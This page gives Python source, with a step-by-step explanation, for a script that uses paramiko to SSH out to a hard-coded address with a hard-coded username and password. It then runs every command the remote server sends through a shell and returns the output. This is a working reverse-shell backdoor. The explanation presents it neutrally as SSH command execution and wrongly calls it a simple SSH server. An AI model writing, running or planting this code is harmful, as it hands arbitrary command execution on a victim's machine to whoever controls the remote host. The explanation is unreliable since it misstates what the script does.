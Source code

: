 
```python
import subprocess
import paramiko

# Function to establish an SSH connection and execute commands
def ssh_command(ip, user, passwd, command):
    client = paramiko.SSHClient()  # Create an SSHClient instance
    # client can also support using key files
    # client.load_host_keys("/home/user/.ssh/known_host")  # Uncomment to load known host keys for validation
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())  # Automatically add the server's host key if not found
    client.connect(ip, username=user, password=passwd)  # Connect to the SSH server using provided credentials
    
    # Open a session over the established SSH transport
    ssh_session = client.get_transport().open_session() 
    
    if ssh_session.active:  # Check if the SSH session is active
        # Send the initial command ("ClientConnected") to the SSH server
        ssh_session.send(command)
        
        # Print the server's response (initial banner or greeting message)
        print(ssh_session.recv(1024))  # Read the first 1024 bytes from the server's response

        while True:
            # Wait for further commands from the SSH server
            command = ssh_session.recv(1024)  # Receive command from the server
            try:
                # Execute the received command locally using subprocess
                cmd_output = subprocess.check_output(command.decode(), shell=True)
                # Send back the command output to the SSH server
                ssh_session.send(cmd_output)
            except Exception as e:
                # In case of an error, send the error message back to the SSH server
                ssh_session.send(str(e))

    client.close()  # Close the SSH connection after finishing
    return

# Call the function with the IP address, username, password, and initial command
ssh_command("192.168.100.130", "justin", "lovesthepython", "ClientConnected")
```

### Explanation:
1. **Importing Modules:**
   - `subprocess`: Allows running shell commands and retrieving the output.
   - `paramiko`: Provides the functionality to create SSH connections and interact with remote systems.

2. **ssh_command Function:**
   - Takes four arguments: `ip` (IP address of the remote host), `user` (username for SSH login), `passwd` (password), and `command` (initial command to send upon connection).
   
3. **SSHClient Setup:**
   - `client = paramiko.SSHClient()`: Creates an instance of `SSHClient` to manage the SSH connection.
   - `client.set_missing_host_key_policy(paramiko.AutoAddPolicy())`: Automatically accepts the server’s host key if it is not already known.
   - `client.connect(ip, username=user, password=passwd)`: Connects to the remote server using the provided IP, username, and password.

4. **Opening an SSH Session:**
   - `ssh_session = client.get_transport().open_session()`: Opens an interactive session over the established SSH transport.
   
5. **Sending and Receiving Data:**
   - `ssh_session.send(command)`: Sends the initial command (`"ClientConnected"`) to the remote server.
   - `print(ssh_session.recv(1024))`: Prints the server’s initial response (banner or greeting message).
   
6. **Continuous Command Execution:**
   - The while loop waits for commands from the SSH server, processes them using `subprocess.check_output()` to execute the received command locally, and sends the output back to the server.
   - If an error occurs while running the command, the exception message is sent back.

7. **Closing the Connection:**
   - `client.close()`: Closes the SSH connection after the operations are completed.

### Key Points:
- The code establishes an SSH connection to a remote host and sends/receives commands and responses interactively.
- The `subprocess.check_output()` method is used to run system commands locally based on the commands received from the server.
- This setup works as a simple SSH server (although it requires an active session to work continuously).
